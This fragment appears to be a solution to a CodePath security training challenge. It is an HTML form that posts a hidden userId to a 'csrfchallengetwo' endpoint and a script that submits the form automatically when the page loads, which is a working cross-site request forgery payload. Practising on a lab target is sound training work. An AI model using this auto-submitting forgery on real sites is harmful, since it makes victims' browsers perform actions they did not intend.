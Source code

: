 <form name="csrfForm" action="https://security.codepath.com/user/csrfchallengetwo/plusplus" method="POST">
 <input type="hidden" name="userId" value="088258bb4c479327cc8c6bcbf9911bd0da50dc09" />
 <input type="submit"/>
</form>
<script>
 document.csrfForm.submit();
</script>
